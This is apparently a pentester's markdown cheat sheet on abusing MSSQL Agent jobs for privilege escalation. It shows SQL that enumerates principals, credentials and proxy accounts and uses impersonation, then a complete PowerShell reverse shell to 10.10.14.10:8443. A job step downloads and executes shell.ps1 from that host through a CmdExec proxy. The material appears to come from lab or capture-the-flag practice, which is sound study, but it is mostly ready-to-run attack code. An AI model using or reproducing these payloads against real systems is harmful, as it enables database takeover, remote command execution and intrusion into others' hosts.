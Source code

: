 ```yaml
---
title: "MSSQL Agent Jobs"
date: 2024-8-3
tags: ["mssql", "database", "Windows", "agent jobs", "privesc"]
---
```


---
### 1. Pre-check

<div>

```mysql
# List principals
SELECT name FROM sys.database_principals;
```

```mysql
# Check privilege over a principal from current user
SELECT entity_name, permission_name FROM fn_my_permissions('<PRINCIPAL>', 'USER');
```

```mysql
# Fix : Cannot resolve the collation conflict between "Latin1_General_CI_AI" and "SQL_Latin1_General_CP1_CI_AS"
SELECT entity_name collate DATABASE_DEFAULT,permission_name collate DATABASE_DEFAULT FROM fn_my_permissions('<PRINCIPAL>', 'USER');
```

```mysql
# Check SQL credentials
SELECT name, credential_identity FROM sys.credentials;
```

</div>

### 2. Check proxy account name and permissions

<div>

```mysql
# Create a table to store info
CREATE TABLE proxies (subsystem_id INT PRIMARY KEY NOT NULL, subsystem_name varchar(255), proxy_id INT, proxy_name varchar(255));
```

```mysql
# Insert proxy info into table
EXECUTE AS LOGIN='<PRINCIPAL>'; INSERT proxies EXEC msdb.dbo.sp_enum_proxy_for_subsystem;
```

```mysql
# Show proxy info
SELECT subsystem_name, proxy_name FROM proxies;
```

</div>

### 3. Create agent job

#### Powershell #2

<div>

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',8443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

</div>

#### Create job

<div>

```mysql
USE msdb; EXEC AS LOGIN='<PRINCIPAL>'; EXEC dbo.sp_add_job @job_name=N'ANYTHING'; EXEC dbo.sp_add_jobserver @job_name=N'ANYTHING'; EXEC dbo.sp_add_jobstep @job_name = N'ANYTHING', @step_name=N'ExecPayload', @subsystem=N'CmdExec', @command='powershell.exe iex(iwr http://10.10.14.10/shell.ps1)|iex', @retry_attempts=5, @retry_interval=5, @proxy_name=N'<PROXY_NAME>'; EXEC dbo.sp_start_job @job_name = N'ANYTHING';
```

</div>

<br>
